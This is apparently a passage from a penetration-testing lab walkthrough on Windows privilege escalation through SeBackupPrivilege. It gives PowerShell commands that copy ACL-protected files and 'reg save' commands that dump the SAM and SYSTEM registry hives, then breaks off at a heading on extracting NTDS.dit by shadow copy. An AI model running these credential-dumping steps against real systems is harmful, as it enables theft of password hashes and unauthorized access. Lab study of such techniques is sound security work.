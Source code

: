 ## 💾 File System Exploitation

### Protected File Access

#### Standard Access Failure
```powershell
# Attempt normal file access
dir C:\Confidential\
cat 'C:\Confidential\2021 Contract.txt'

# Expected result:
Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
```

#### SeBackupPrivilege Bypass
```powershell
# Use specialized copy function
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\SeBackupPrivilege flag.txt' .\flag.txt
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

# Expected output:
Copied 88 bytes

# Read copied file
cat .\Contract.txt
# Content accessible despite ACL restrictions
```

### Registry Hive Extraction

#### SAM and SYSTEM Backup
```cmd
# Backup critical registry hives
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

# Expected output for each:
The operation completed successfully.
```

## 🏰 Domain Controller Attacks

### NTDS.dit Extraction Strategy

#### Challenge
- **NTDS.dit** contains NTLM hashes for all domain accounts
- **File locked** by Active Directory services
- **Restricted access** even for privileged users

#### Solution: Shadow Copy Technique
